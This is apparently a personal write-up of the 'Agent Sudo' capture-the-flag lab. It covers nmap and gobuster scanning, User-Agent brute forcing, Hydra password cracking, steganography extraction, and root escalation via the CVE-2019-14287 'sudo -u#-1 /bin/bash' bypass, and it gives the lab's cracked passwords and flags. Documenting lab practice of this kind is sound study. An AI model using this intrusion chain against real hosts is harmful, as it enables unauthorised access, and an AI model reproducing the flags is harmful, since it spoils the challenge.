








# Agent Sudo

## Task 2

### 2.1
```
sudo nmap -sS -sV -p- 10.10.170.253 -oN nmap.out
```

Nmap scan gives 3 open ports

### 2.2
Going to web server gives this page:



User-agent is a HTTP header. Will find agent name there.

Will run gobuster as well to help find secret pages:

```
gobuster dir -u http://10.10.170.253:80/ -t 100 -w ~/wordlists/dirbuster/directory-list-2.3-medium.txt -o gb_root.out
```

Only gave 'server-status' as a directory

### 2.3

Inspecting the developer tools in Firefox > Network. Checking the GET request shows a User-Agent of:

Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Reading hint says to use 'User Agent Switcher' extension on Firefox.

Will use Burp Suite Intruder to change User-Agent header on request





C gives a redirect status code. The page is called 'agent_C_attention.php'

Appending PHP file to web URL gives the secret agent name 'Chris'

## Task 3

### 3.1

Will crack FTP password for 'chris' using hydra:

```
hydra -l chris -P ~/wordlists/rockyou.txt -vV -o hydra_ftp.out 10.10.170.253 ftp
```

Password is 'crystal'.

### 3.2

Will login to FTP as chris.

Will get all files in directory.



Within 'To_agentJ.txt' there are two more agents: Agent J and Agent R.

Anonymous FTP login failed.

Will use binwalk to extract information from images.

```
binwalk cute-alien.jpg

binwalk cutie.png
```

cutie.png contains a zip file. Will extract file from image

```
binwalk -e cutie.png
```

Now have '_cutie.png.extracted' directory, which contains zlib compressed data and a password-protected zip file.



Will crack password with John the Ripper:

```
zip2john 8702.zip > johnzip.out
john

john --wordlist=~/wordlists/rockyou.txt johnzip.out
```

Zip password is 'alien'

### 3.3

Extracting zip file gives 'To_agentR.txt', which has a string 'QXJlYTUx' which needs to be decoded. The result is 'Area51'.

### 3.4

Use password to extract text from image

```
steghide --extract -sf cute-alien.jpg
```

Created 'message.txt', which gives the name of Agent J, which is James.

### 3.5

The password is also inside 'message.txt', which is 'hackerrules!'

## Task 4

### 4.1

SSH into server as james with password hackerrules!

User flag reads:
b03d975e8c92a7c04146cfa7a5a313c7

### 4.2

Copy image from SSH server to Kali Linux machine

```
scp james@10.10.170.253:/home/james/Alien_autospy.jpg .
```

Searching on Google shows 'Roswell Alien Autopsy'.

## Task 5

### 5.1

Copy Linpeas script to target machine via SCP

```
scp linpeas.sh james@10.10.170.253:/home/james/
```

Check sudo version and sudo privileges for james:



Searched ExploitDB for 'sudo 1.8' and found CVE-2019-14287. Exploit works for the same sudo privileges the james user has.

### 5.2

Can exploit using thee following command:

```
sudo -u#-1 /bin/bash
```

This exploit runs bash as the specified user. '-u#-1' returns 0, which is the root user's id.

We are now root.



Go to /root/ and cat the root.txt file.



Flag is:
b53a02f55b57d4439e3341834d70c062

### 5.3

Agent R is named DesKel

## Things learnt/to improve

- Steganography

- sudo -l and sudo -V for checking potential privilege escalation options

- User-Agent brute forcing with Burp Intruder